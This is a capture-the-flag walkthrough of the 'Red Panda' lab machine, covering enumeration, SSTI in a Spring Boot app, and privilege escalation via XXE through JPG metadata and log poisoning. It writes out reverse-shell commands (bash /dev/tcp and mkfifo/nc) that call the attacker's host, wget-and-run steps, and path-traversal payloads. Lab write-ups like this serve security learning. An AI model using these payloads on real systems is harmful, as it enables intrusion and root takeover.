Red Panda
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Enumeration
I used this script to scan the target.
Ports 22 and 8080 are the only ones open. No significant information is given. No open ports found on UPD. A Whatweb scan shows 'Made with Spring Boot'. Looks like we'll be dealing with java

None of the service versions showed any known vulnerabilities. wfuzz -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://10.10.11.170:8080/FUZZ -f wfuzz_common.txt
The above fuzz yielded the following:

Visiting http://10.10.10.20:8080 shows an input field accepting user input. Entering a blank field gives a page mentioning injection attacks. Entering a simple SSTI(Server Side Template Injection) string shows the following results:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Exploitation
Here you could setup burpsuite in order to go through a list of characters to see which ones return a value. I did a simple google search to find other variations of ${7*7}
Eventually I came accross *{7*7}. Simply replace '$' with '*'
The application is susceptible to SSTI. Now we need to figure out the correct payload in order to catch a shell. Using "bash -i >& /dev/tcp/10.10.16.4/6666 0>&1" won't work. I believe this has something to do with the /dev/tcp directory being absent on linux VMs. Someone correct me on this. I tried various payloads from PayloadsAllTheThings. Searching through github, I found an SSTI payload generator here: ssti-payload. After a while of playing around with various commands, I decided to wget an ‘.sh’ file to the target via a local http server. The script contained "rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/bash -i 2>&1 | nc [my IP] [port] > /tmp/f" ; NO brackets. I was able to execute the file in the target directory(/tmp); Set up an http server in the directory your file is in, use 'wget http://[your ip]:port/yourfile.sh' and 'bash /tmp/yourfile.sh' in the SSTI payload generator. Send the wget payload, after the file is retrieved, send the bash command payload. This should execute the bash script on the target /tmp directory. Connected to a netcat listener, thus establishing a reverse shell.

Noticed via pspy64 that everytime root executes the jar file, a cleanup script is executed; There's also a ‘run_credits.sh’ in root directory. We have access to this due to being in the 'logs' group. But nothing quite stands out with the 'xml' documents inside. Since every other path to privesc has led to a wall, I need to look at the jar file to find something. Moving the file over to my local machine with a python http server, allows me to use the jd-gui tool (On kali: sudo apt-get install jd-gui) in order to decompile code into a readable format. I suppose a good thought process in regards to finding where to look in the code would be to consider how it's applied. We are dealing with a web application. Within the jar file, there are NUMEROUS classes with many many lines of code. So which ones matter most in our instance? logparser stands out to me. Log as in logs?

Loading that, I see app class. We are dealing with an application. Maybe we'll find something interesting in here

The ‘main’ function near the bottom looks like a lot of functions seen in python(this is an example; I've never coded in java) where all other functions are called from within main. Within this one there is a file variable containing an actual path in the system. woodenk has read/write permissions via the ‘logs’ group. We might be onto something:


The isImage function is filtering for ‘.jpg’ extentions. If this is not found, the line in redpanda.log is skipped. Otherwise this line is parsed to get the ‘uri’. This is then printed out to the system. The getArtist variable attaches this ‘uri’ to the end of the path seen in blue:

What exactly is in this path? Going back to the target terminal and traversing to this path, we see where the cute pandas live. I most certainly did NOT spend countless minutes adoring them!

So to summarize thus far and to elaborate further: Everytime the jar file is executed, the redpanda log is analyzed for a ‘uri’ that contains a ‘.jpg.’ This line is then passed to the getArtist function, where METADATA(hint hint) in the jpg file is searched. If an ‘Artist’ tag is found, the data associated with ‘Artist’ is returned. This information is then printed out to the system, as well as being added to a file path. Then it's finally inserted as a parameter(xmlPath) in addViewTo, along with the path retrieved from the redpanda log. In the addViewTo function, each child element inside the xml document (referenced to by the ‘xmlPath’ variable) is matched to the string ‘image’. If this is true, then the element ‘uri’ is checked for equality to the ‘uri’ found from the redpanda log. This is what adds a counter next to the jpg when looked up via URL http://10.10.11.170:8080/img/smooch.jpg. The last two lines write the changed elements to the xml file, updating it. Transfer the java file to your local terminal and read it for yourself.
It looks like ‘uri’, or the expected path to the image and user file, is NOT filtered. uri is recieved from two places:
1.) The panda log. Here the uri points the system to where the jpg is located when looked up via URL.
2.) The header inside the xml files found in /credits. Here the uri is compared to the one found in the panda log.
Seeing an XML file being written to with essentially what is unfiltered user input leads me to suspect the system is vulnerable to XML External Entity Injection(XXE). The following sites helped me better understand this type of web attack: hacktricks.xyz and also portswigger.net. When visiting a jpg via browser such as smooch from above, the following is written to the redpanda log. Highlighted is the ‘uri’:

So how to test the hypothesis? I'm thinking what's a simple command I know that will execute on the server? Lets try to get the system to show us what's in the /etc/passwd file. I will list the steps to accomplish this(more explicit steps are listed past the cute panda pic):
1.) Use a jpg to get the server to point to a writable file for woodenk. In this case, it will be /tmp/file, where the file is the xml document I will describe below. One can use the 'exiftool' to ammend/change metadata in images.
2.) Place a file with the XML extension in this path. Make sure it fits the expected format in the java code!
3.) Copy what's in the XML document for woodenk or damian(doesn't matter), and paste to your new file. If you don't understand why, study the code further.
4.) Use the format provided in the websites above to edit the new XML file with the desired payload. DONT CLOSE THE FILE YET!
5.) MAKE SURE you execute the entity in the element that is ‘unfiltered’...I won't be too explicit here as I want to encourage those who struggle here like me to put some more work in. That's how we'll learn. For those who need explicit details, I will show more explicit steps below the cute panda.
6.) Echo the correct format into the redpanda log file, then wait...Performing these steps correctly should give the following results when reading the XML file created. We have thus confirmed that the server is vulnerable to XXE.

exiftool -Artist="../tmp/howdy" apicture.jpg

Move the jpg to the target /tmp folder via an http server or your choice of file transfer.
Copy either users XML document then paste in an xml file in your local terminal. (To show that copying isn't exactly necessary, read further and look at the image; if it doesn't make sense to you, go back and review the code). If we've already confirmed that the server is vulnerable to XXE, AND we know the ssh service allows root login, then the payload should look like such:

Now we need to add the trigger for the XXE injection. Go to the directory with the redpanda log. 'echo “200||1||1||/../../../../../../../tmp/spawn.jpg” >> redpanda.log'. Wait for the java program to run. Check the xml file.

Ya'll should know what to do from here.